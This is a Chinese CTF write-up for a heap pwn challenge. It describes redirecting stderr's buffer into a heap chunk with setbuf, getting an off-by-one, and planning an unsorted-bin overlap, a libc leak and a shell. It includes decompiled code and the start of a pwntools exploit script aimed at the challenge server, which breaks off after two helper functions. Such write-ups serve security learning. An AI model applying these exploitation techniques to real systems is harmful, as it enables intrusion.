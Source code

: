 大概意思就是说缓冲区有三种模式，无缓冲/行缓冲/满缓冲，sebuf等于下面的形式，我们可以做个实验，给个char*的buf，sebuf(stdout,buf);使用printf输出的时候并没输出到终端上，而是进入了buf数组。

到这里这里的利用其实已经有头绪了，我们将stderr(固定参数1，可以通过看汇编找前面rdi的来源确定)同chunk_addr关联起来，再输入一个invalid choice触发`_fprintf_chk((__int64)stderr, 1LL, (__int64)"unknown options, foolish %s", (__int64)byte_202100);`当我们输入的name长度为0x50时，实际输入到heap的长度为25+0x50=0x69，从而在heap中可以off-by-one。

这里注意fflush两次才能让数据全部进入到heap，这也是学长试验出来的，后面构造ub的overlap，Delete之后用另一个调用Alice或其他函数泄露libc，最后get shell

```c
unsigned __int64 __fastcall Alice0(__int64 IO_FILE, __int64 chunk_addr, unsigned int chunk_size)
{
  __int64 v4; // [rsp+0h] [rbp-118h]
  unsigned __int64 v5; // [rsp+108h] [rbp-10h]

  v5 = __readfsqword(0x28u);
  memset(&v4, 0, 0x100uLL);
  if ( (unsigned int)_sprintf_chk(
                       (__int64)&v4,
                       1LL,
                       0x100LL,
                       (__int64)"Send %d bytes: %s to Alice\n",
                       chunk_size,
                       chunk_addr)
     - 1 > 0xFE )
  {
    fwrite("Msg Size error!\n", 1uLL, 0x10uLL, stderr);
    fflush(stderr);
    exit(0);
  }
  puts((const char *)&v4);
  return __readfsqword(0x28u) ^ v5;
}
```

#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./pwn1')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./pwn1')

else:
    libc = ELF('./x64_libc.so.6')
    p = remote('f.buuoj.cn',20173)

def Store(content):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil("contents: ")
    p.send(content)

def Delete(index):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('which: ')
    p.sendline(str(index))

```